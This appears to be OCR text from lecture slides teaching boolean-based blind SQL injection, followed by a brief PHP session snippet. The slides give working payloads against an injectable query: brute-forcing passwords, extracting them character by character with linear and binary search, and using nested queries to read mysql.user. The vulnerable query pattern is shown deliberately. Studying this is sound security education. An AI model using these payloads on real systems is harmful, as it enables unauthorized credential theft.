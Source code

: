 Display user info - EXPLOIT
Boolean-Based Blind Injections
“Smarter” Brute Force - Step 2 ver.0
Now that we have the length, we can bruteforce on strings of that length
Uppercase and Lowercase
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND password=”aaaaaaaa”			1 AND password=”aaaaaaab”			…
SELECT * FROM users WHERE id=1 AND password=”aaaaaaaa”		=> NO
…
SELECT * FROM users WHERE id=1 AND password=”Bathrobe”		=> YES	But this would take AGES! We can do much better than that!

Display user info - EXPLOIT
Boolean-Based Blind Injections
Smarter Brute Force (linear search) - Step 2 ver.1
If we have the length, we can slice the password and find each character by itself
We go from 94^8 to 94*8 (case-insensitive printable ASCII characters except space)
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND MID(password,1,1)=”a”			1 AND MID(password,1,1)=”b”			…
SELECT * FROM users WHERE id=1 AND MID(password,1,1)=”a”		=> NO
…
SELECT * FROM users WHERE id=1 AND MID(password,1,1)=”B”		=> YES	Then we move to the second character with MID(password, 2,1) and so on.

Display user info - EXPLOIT
Boolean-Based Blind Injections
Smarter Brute Force (binary search) - Step 2 ver.2
Since ASCII is sorted, we can binary search it
O(n) to O(log(n)) and that kind of weird stuff… bottom line: it’s faster than linear search
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND ORD(MID(password,1,1))>64 			1 AND ORD(MID(password,1,1))>96			…
SELECT * FROM users WHERE id=1 AND ORD(MID(password,1,1))>64
NO 	=> 	SELECT * FROM users WHERE id=1 AND ORD(MID(password,1,1))>32
YES 	=> 	SELECT * FROM users WHERE id=1 AND ORD(MID(password,1,1))>96	For each character in the password field

Display user info - EXPLOIT
Boolean-Based Blind Injections
But what if you wanted to extract data from another table?
Nested queries
Query:		SELECT * FROM users WHERE id=$id
Payload: 		1 AND ORD(MID( (SELECT user FROM mysql.user LIMIT 0,1) ,1,1))>64			1 AND ORD(MID( (SELECT user FROM mysql.user LIMIT 0,1) ,1,1))>96			…
SELECT * FROM users WHERE id=1 AND ORD( MID(		(SELECT user FROM mysql.user LIMIT 0,1), 1, 1 ))>64
SELECT * FROM users WHERE id=1 AND ORD( MID(					“root”				       , 1, 1 ))>64

Login Form
Let’s refine our login form to really keep track of logged users
start_session();
$_SESSION[‘user’] = $user;
$_SESSION[‘id’] = $row[‘id’];
echo “Welcome {$_SESSION[‘user’]}!”;
Sessions are indexed by PHPSESSID (the “HTTP is Stateless” mantra)
